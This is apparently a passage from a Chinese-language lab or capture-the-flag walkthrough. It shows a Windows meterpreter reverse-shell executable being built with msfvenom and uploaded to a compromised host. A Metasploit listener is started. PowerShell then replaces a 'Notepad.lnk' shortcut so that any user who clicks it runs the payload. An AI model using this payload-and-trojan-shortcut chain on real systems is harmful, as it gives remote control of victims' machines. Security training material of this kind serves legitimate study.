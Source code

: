 可能存在其他用户点击的可能性，部署一个负载，并创建恶意快捷方式

生成载荷

```bash
┌──(randark㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.8 LPORT=8888 -f exe > 10.10.16.8-8888.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

投放

```bash
meterpreter > upload 10.10.16.8-8888.exe
[*] Uploading  : /home/randark/10.10.16.8-8888.exe -> 10.10.16.8-8888.exe
[*] Uploaded 7.00 KiB of 7.00 KiB (100.0%): /home/randark/10.10.16.8-8888.exe -> 10.10.16.8-8888.exe
[*] Completed  : /home/randark/10.10.16.8-8888.exe -> 10.10.16.8-8888.exe
```

开启监听

```bash
┌──(randark㉿kali)-[~]
└─$ msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > set lhost 10.10.16.8
lhost => 10.10.16.8
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.8:8888 
```

创建恶意快捷方式

```powershell
meterpreter > shell
Process 2516 created.
Channel 5 created.
Microsoft Windows [Version 10.0.20348.2340]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\xampp\htdocs> $objShell = New-Object -ComObject WScript.Shell
$objShell = New-Object -ComObject WScript.Shell
PS C:\xampp\htdocs> $lnk = $objShell.CreateShortcut("c:\Common Applications\Notepad.lnk")
$lnk = $objShell.CreateShortcut("c:\Common Applications\Notepad.lnk")
PS C:\xampp\htdocs> $lnk.TargetPath = "C:\xampp\htdocs\10.10.16.8-8888.exe"              
$lnk.TargetPath = "C:\xampp\htdocs\10.10.16.8-8888.exe"
PS C:\xampp\htdocs> $lnk.Save()
$lnk.Save()
```